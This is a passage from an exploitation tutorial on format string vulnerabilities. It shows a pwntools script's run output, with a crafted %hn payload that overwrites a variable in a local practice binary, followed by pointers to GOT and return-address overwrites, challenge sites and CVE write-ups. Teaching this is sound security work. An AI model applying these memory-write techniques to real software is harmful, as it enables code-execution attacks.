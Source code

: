 ```python
io.stream()

```

Then we can execute our script. Remember to install [pwntools](https://github.com/Gallopsled/pwntools) if you don't
have it (in a python virtual environment if possible). I already had installed
it in a previous example in my `fsv` virtual environment so I will activate the
python environment and execute the script:

```sh
$ workon fsv
(fsv) $ python3 fsv-write-local-big-ex.py
[x] Starting local process './fsv-write-local-big'
[+] Starting local process './fsv-write-local-big': pid 2126
Program printed: b'i is at: 0xff91307c\n'
Address is 0xff91307c -> b'|0\x91\xff'
Our format string: b'|0\x91\xff~0\x91\xff%048871x%6$hn%08126x%7$hn'
[*] Process './fsv-write-local-big' stopped with exit code 13 (pid 2126)
|0��~0��000000000...stripped...00000f7f52620

i = deadbeef
You got it!!
```

And we got it!! We were able to successfully write a big value into a memory
address. In a real world exploit we probably wanted to overwrite some place in
memory that allows us to change the execution flow, such as the return address
in the stack, the [GOT table](https://infosecwriteups.com/got-overwrite-bb9ff5414628), or a function pointer of a [C++ virtual table](https://www.learncpp.com/cpp-tutorial/the-virtual-table/).

## More on Format String Vulnerabilities

At this point, you have all the basics of how format string vulnerabilities
work, so go try to put your knowledge at test. For example, in
[Root-Me App-System challenges](https://www.root-me.org/en/Challenges/App-System/) you can find several format string
vulnerability exercises.

Additionally, I left some format string vulnerabilities in real life, that
describes more complex scenarios:
- [CVE-2024-29510 – Exploiting Ghostscript using format strings](https://codeanlabs.com/blog/research/cve-2024-29510-ghostscript-format-string-exploitation/)
- [Fortinet FortiGate CVE-2024-23113 - A Super Complex Vulnerability In A Super
  Secure Appliance In 2024](https://labs.watchtowr.com/fortinet-fortigate-cve-2024-23113-a-super-complex-vulnerability-in-a-super-secure-appliance-in-2024/)

## Resources

- [Exploiting Format String Vulnerabilities](https://websec-lab.github.io/courses/2025s-cse467/metarials/formatstring.pdf)
- [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings/)
- 2002 [Advances in format string exploitation](https://phrack.org/issues/59/7#article) by gera and riq
